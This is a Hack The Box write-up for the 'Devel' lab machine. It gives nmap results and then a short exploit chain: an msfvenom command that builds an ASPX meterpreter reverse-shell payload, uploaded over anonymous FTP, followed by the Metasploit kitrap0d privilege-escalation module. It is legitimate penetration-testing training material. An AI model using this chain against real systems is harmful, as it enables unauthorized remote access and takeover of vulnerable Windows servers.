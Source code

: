 ```yaml
---
layout: post
title:  "HTB Devel Machine Writeup"
date:   2020-1-2 00:10:00 +0000
categories: hackthebox
---
```



# Nmap scan
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
```

# Exploitation
As the first scan shows, ftp is open and the web server is hosting the files put into ftp. We can create a aspx payload with msfvenom and upload that to test for a shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<X> LPORT=<X> -f aspx -o fml.aspx
```
Our metasploit handler returns a shell. Backgrounding the session allows us to take advantage of metasploits local_exploit/suggestor. Running this module returns some available modules that may work to get higher privileges.
```
use exploit/windows/local/ms10_015_kitrap0d
```
Running this module on the backgrounded session elevates us to SYSYEM


